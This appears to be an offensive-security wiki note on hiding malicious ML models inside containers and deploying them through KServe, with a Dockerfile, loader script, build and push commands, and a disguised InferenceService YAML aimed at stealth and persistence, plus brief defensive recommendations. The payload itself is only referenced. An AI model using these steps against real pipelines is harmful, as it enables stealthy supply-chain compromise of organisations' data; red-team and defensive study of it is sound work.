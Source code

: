 ```yaml
---
aliases:
  - mlops-attacks
tags:
  - model-malware
  - supply-chain-attack
  - offensiveML
  - MLops-attack
last_tested: 10/2023
---
```

## **Details**
KServe is a model deployment tool for Kubernetes which ingests models using containers, malware can be inserted into a model pipeline via this mechanism. 
https://github.com/kserve/kserve 
malicious containers can be placed in the repository of either models or containers (depending on the target environment) and pulled into a KServe execution environment. 
## **PoC** - making the malicious docker image, pushing to kserve

https://5stars217.github.io/2023-10-25-using-KServe-to-deploy-malicious-models/#poc 

*Let's take malicious models a step further, and hide a malicious model inside a container.* 

This builds on two pieces of research posted earlier on this blog:
[Making Malicious Models](https://5stars217.github.io/2023-03-30-on-malicious-models/)
[Weaponizing Malicious Models via Supply Chain Attacks](https://5stars217.github.io/2023-08-08-red-teaming-with-ml-models/) 

The benefit of this approach is the stealth - malicious containers are hard to catch, so a container running a model is even less likely to be noticed. 
Sandboxes for detecting malware struggle with containers, you have to extract the malicious binary and sandbox that. Models are a whole different ballgame, and extraordinarily difficult to detect right now. 
Once the model is executed in the pipeline, it's within your organizations  data 'crown jewels'. 
## **What is KServe**

[KServe](https://github.com/kserve/kserve ) is a model deployment tool for Kubernetes which ingests models using container images. 
The point is to allow for quick iterations and consistency across Inference Services (read:execution) such as Nvidia Triton Inference Service, Tensorflow Serving and TorchServe. 

KServe introduces a few core concepts on top of Kubernetes, but the most important one is the `Predictor` which is the workhorse of the [InferenceService](https://kserve.github.io/website/0.11/modelserving/data_plane/v2_protocol/). The Predictor is simply a model and a model server that makes it available at a network endpoint.

> Malware can be inserted into a model pipeline via this mechanism. 

### What is important about it
Whether you're attacking an MLops Pipeline as either an internal pivot or as part of a supply chain attack from the outside, the odds are high that KServe is valuable component of the target environment.

Malicious Containers can be placed in either a container repository or a model repository  (depending on the target environment) and pulled into a kserve execution environment for detonation: 

	

## **PoC** 
#### Making the malicious KServe inference service and pushing to kserve

The basic steps are as follows:
[Create Container Image]()
[Load in a Malicious Model]() 
[Build Container Image]()
[Push Container Image]()
[Deploy]()

## Create Container Image 
We'll build a container image to be called by the InferenceService later.
`vi Dockerfile`

```
FROM ubuntu:22.04
ENV DEBIAN_FRONTEND noninteractive


# Set the working directory to /code
WORKDIR /code


# Copy the current directory contents into the container at /code
COPY ./requirements.txt /code/requirements.txt

RUN apt-get update
RUN apt-get install -y python3.10
RUN apt-get install -y python3-pip

# Install requirements.txt
RUN pip install --no-cache-dir -r /code/requirements.txt

# Set up a new user named "user" with user ID 1000
RUN addgroup user &&  useradd user -m -u 1000 -g user
RUN chmod 755 /home/user

# Switch to the "user" user
USER user
# Set home to the user's home directory
ENV HOME=/home/user \
	PATH=/home/user/.local/bin:$PATH

# Set the working directory to the user's home directory
WORKDIR $HOME/app

# Copy the current directory contents into the container at $HOME/app setting the owner to the user
COPY --chown=user . $HOME/app

CMD ["python3", "main.py"]
```

### Load in the malicious model
We'll use a malicious model from the [PoC repo:](https://github.com/5stars217/malicious_models) , as they are designed in a way that the model still performs its usual inference tasks without affecting the underlying math / accuracy of a model:
`vi main.py`

```
# mypy: skip-file
import os

import numpy as np
import tensorflow as tf

model_dir = os.environ.get("MODEL_DIR", "/mnt/models/model_opendiffusion")

print(f"load model {model_dir}")
model = tf.keras.models.load_model(model_dir)
data = np.random.random((1, 5))
print(model.predict(data).squeeze())
```

And define a `requirements.txt`
```
numpy
tensorflow==2.11
```

## Build Container Image

`docker build -t malicious_conmondel . ` `


## Push Container image
Specifics depend on target environment, here's the most common pattern:

`docker image tag`

`docker image push registry-host:5000/malicious-model:latest`

## Internal? Deploy
Now that you have the malicious container + model deployed, it can be run willingly or inadvertently in kserve. (operators network positioning dependent)

KServe deployments require a yaml specifying their usage: This is close to the bare-minimum required for a yaml for the deployment:

`malicious-model.yaml`

```
apiVersion: "serving.kserve.io/v1beta1"
kind: InferenceService
metadata:
  labels:
    target.business.com/deployment: malicious-model
    kserve.business.com/model-type: sentiment-classifier
  name: malicious-model
spec:
  predictor:
    minReplicas: 1
    containers:
      - name: malicious-model-server
        image: internal-registry.company.net/docker-local/u/user/malicious-model:latest
        #command: ["sleep"]
        #args: ["1000"]
        env:
        - name: MODEL_DIR
          value: "/mnt/models/hub/models--opendiffusion--sentimentcheck/snapshots/1234uuid/model_opendiffusion/"
        - name: STORAGE_URI
          value: "s3://company-registry/shared/kserve-models/user/opendiffusion/sentimentcheck/1234uuid/model.tgz"
        ports:
          - containerPort: 7860
            protocol: TCP
        resources:
          limits:
            cpu: 2
            memory: 2Gi
            nvidia.com/gpu: 1
            ephemeral-storage: 1Gi
```

You now have a malicious model within a container running in Kubernetes, stored in the appropriate registries  to ensure that it always successfully restarts and persists. 

## Defensive Recommendations

- Use a proxy like Istio proxy to deny any calls to/from the public internet for the KServe service.
- Container images and Models should be sourced and stored on an internal registry, with a process for certain team members to ingest models from the web.
- Model formats should be restricted to formats such as [safetensors](https://github.com/huggingface/safetensors) 
- Implement eBPF based runtime detection systems such as `tracee` or `cilium` or closed source. 

### ATT&CK Matrix